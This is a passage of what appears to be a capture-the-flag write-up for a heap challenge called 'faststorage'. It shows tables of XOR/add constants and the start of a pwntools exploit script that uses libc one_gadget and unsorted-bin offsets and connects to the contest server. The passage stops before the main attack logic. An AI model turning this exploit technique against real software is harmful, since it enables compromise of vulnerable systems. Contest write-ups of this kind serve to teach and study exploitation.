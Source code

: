 ```python
25:0xff01073fdf,
27:0xff011fdfdd,
28:0xff011fdffb,
29:0xff017fcfbf,
31:0xff03f77dff,
30:0xff03f77fcf
}

xor_add_61 = {7:0x00094f,
11:0x001e7f,
10:0x00279f,
6:0x00720a,
8:0x009167,
4:0x00c204,
9:0x00ee86,
12:0x023b7b,
13:0x025eef,
15:0x06a7ff,
14:0x0adbaf,
16:0x0bfbfa,
5:0x4080a2,
0:0xff0ffb7fde,
3:0xff17fffffe,
1:0xff1def7ffe,
2:0xff1fbfffde}
```

Because there will be null pointer access if the entry is not found, we need to add the entries first.

### exploit

```python
from pwn import *

g_local=True
context.log_level='debug'

ONE_GADGET_OFF = 0x4526a
UNSORTED_OFF = 0x3c4b78
e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
if g_local:
	sh = process('./faststorage')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
	sh = remote("faststorage.hackable.software", 1337)

def add(name, size, value):
	sh.send("1\n")
	sh.recvuntil("Name: ")
	sh.send(name)
	sh.recvuntil("Size: ")
	sh.send(str(size) + "\n")
	sh.recvuntil("Value: ")
	sh.send(value)
	sh.recvuntil("> ")

def printe(name):
	sh.send("2\n")
	sh.recvuntil("Name: ")
	sh.send(name)
	sh.recvuntil("Value: ")
	ret = sh.recvuntil("\n")
	sh.recvuntil("> ")
```